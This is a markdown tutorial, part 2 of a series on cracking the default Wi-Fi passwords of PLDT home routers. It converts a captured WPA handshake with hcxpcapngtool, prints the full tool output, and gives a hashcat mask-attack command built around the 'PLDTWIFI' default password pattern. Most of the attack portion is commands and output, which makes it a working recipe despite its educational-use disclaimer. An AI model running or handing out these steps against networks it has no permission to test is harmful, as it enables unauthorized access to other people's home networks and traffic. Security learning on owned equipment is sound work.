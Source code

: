 ### How to Hack PLDTWIFI Default Credetials (PART2)

Author's Warning:
- This video is for EDUCATIONAL PURPOSES ONLY. I own all equipment used for this demonstration. Only use the tools demonstrated in this video against networks you have permission to attack.

Note:
- to disable monitor mode and bring the wifi adapter back to its normal operation, perform `sudo airmon-ng stop wlan0`, then use the syntax `systemctl start NetworkManager`
#### Steps

1. Check in your home directory of the file captured in the last tutorial. In our case: `test.pcapng`
   ![[Pasted image 20220823071552.png]]
2. Before we can crack this password, we will convert this first to a file recognized by hashcat. To do this, we can use the syntax `hcxpcapngtool -E essidlist -I identitylist -U usernamelist -o /home/kali/test.22000 /home/kali/test.pcapng`, like so:

```
┌──(kali㉿kali)-[~]
└─$ hcxpcapngtool -E essidlist -I identitylist -U usernamelist -o /home/kali/test.22000 /home/kali/test.pcapng
hcxpcapngtool 6.2.7-36-g5dc85e2 reading from test.pcapng...

summary capture file
--------------------
file name................................: test.pcapng
version (pcapng).........................: 1.0
operating system.........................: Linux 5.18.0-kali5-amd64
application..............................: hcxdumptool 6.2.6
interface name...........................: wlan0
interface vendor.........................: 14ebb6
openSSL version..........................: 1.0
weak candidate...........................: 12345678
MAC ACCESS POINT.........................: 1011112cbeb6 (incremented on every new client)
MAC CLIENT...............................: b025aa87c352
REPLAYCOUNT..............................: 65134
ANONCE...................................: 51a04fa9485a0fc4bc9ef7a2cc7687146476cfe354e02b804015a0cc37c90f97
SNONCE...................................: 981d9b2fb4486c9c1b2d0215fe5c4c59b4b49f183ee225e71f3838ed433edd74
timestamp minimum (GMT)..................: 23.08.2022 07:05:53
timestamp maximum (GMT)..................: 23.08.2022 07:06:28
used capture interfaces..................: 1
link layer header type...................: DLT_IEEE802_11_RADIO (127)
endianess (capture system)...............: little endian
packets inside...........................: 464
frames with correct FCS..................: 462
packets received on 2.4 GHz..............: 2
packets received on 5 GHz................: 460
ESSID (total unique).....................: 2
BEACON (total)...........................: 3
BEACON on 2.4 GHz channel (from IE_TAG)..: 1 
BEACON on 5/6 GHz channel (from IE-TAG)..: 149 
BEACON (SSID wildcard/unset).............: 1
AUTHENTICATION (total)...................: 2
AUTHENTICATION (OPEN SYSTEM).............: 2
ASSOCIATIONREQUEST (total)...............: 1
ASSOCIATIONREQUEST (PSK).................: 1
EAPOL messages (total)...................: 456
EAPOL RSN messages.......................: 456
EAPOLTIME gap (measured maximum usec)....: 7498
EAPOL ANONCE error corrections (NC)......: not detected
REPLAYCOUNT gap (measured maximum).......: 2
EAPOL M1 messages (total)................: 450
EAPOL M2 messages (total)................: 3
EAPOL M3 messages (total)................: 1
EAPOL M4 messages (total)................: 2
EAPOL pairs (total)......................: 3
EAPOL pairs (best).......................: 1
EAPOL pairs written to 22000 hash file...: 1 (RC checked)
EAPOL M32E2 (authorized).................: 1

frequency statistics from radiotap header (frequency: received packets)
-----------------------------------------------------------------------
 2412: 2         5300: 114       5745: 244       5765: 95
 5785: 1         5805: 6

Information: missing frames!
This dump file does not contain undirected proberequest frames.
An undirected proberequest may contain information about the PSK.
It always happens if the capture file was cleaned or
it could happen if filter options are used during capturing.
That makes it hard to recover the PSK.


session summary
---------------
processed pcapng files................: 1

                                                                                                                      
┌──(kali㉿kali)-[~]
└─$ 

```

Use `ls` command to check and verify if the new file is now available:
![[Pasted image 20220823071839.png]]

3. Upload test.22000 in your drive (google drive, one drive, etc), or check if you can perform file sharing in your virtual machine going to your windows machine (haven't performed this yet).
4. Download the test.2200 in your windows machine (not kali), I will explain this later:
   ![[Pasted image 20220823072244.png]]
5. Download Hashcat. Use the Part1 tutorial for reference. No need to install, just download and extract.
6. Move the downloaded file (test.2200) to the hashcat directories folder, like so:
   ![[Pasted image 20220823072503.png]]
7. Open Windows Powershell, you can also use command prompt, but for me powershell gives more flexibility:
![[Pasted image 20220823084001.png]]

Once done, use this syntax:

```
./hashcat.exe -m 22000 test.22000 -a 3 -w 4 -S --force --increment --increment-min 13 --increment-max 14 -1 abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 PLDTWIFI?1?1?1?1?1
```

Make sure that the file test.22000 is in the hashcat directory:

![[Pasted image 20220823084207.png]]

Once done, patiently wait for the password to crack and we can test it against the SSID:



END